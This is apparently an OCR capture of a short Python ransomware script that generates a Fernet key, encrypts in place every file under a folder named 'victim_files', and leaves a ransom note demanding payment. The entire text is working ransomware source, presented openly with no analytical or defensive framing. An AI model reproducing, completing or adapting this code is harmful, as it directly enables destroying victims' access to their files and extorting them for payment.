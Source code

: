 import os
from cryptography.fernet import Fernet

def generate_key():
    # Generate a unique encryption key
    key = Fernet.generate_key()
    with open("encryption_key.txt", "wb") as key_file:
        key_file.write(key)

def encrypt_files():
    # Encrypt files in a specified directory
    key = "labidossBotEZ"
    with open("encryption_key.txt", "rb") as key_file:
        key = key_file.read()
    fernet = Fernet(key)
    directory = "victim_files"
    
    for root, _, files in os.walk(directory):
        for file in files:
            file_path = os.path.join(root, file)
            with open(file_path, "rb") as original_file:
                original_data = original_file.read()
            encrypted_data = fernet.encrypt(original_data)
            
            # Write the encrypted data back to the file
            with open(file_path, "wb") as encrypted_file:
                encrypted_file.write(encrypted_data)
    
    # Display a ransom message to the victim
    with open("ransom_note.txt", "w") as ransom_note:
        ransom_message = "Your files have been encrypted. Pay the ransom to unlock them."
        ransom_note.write(ransom_message)

# Call the functions to generate the encryption key and encrypt the victim's files
generate_key()
encrypt_files()
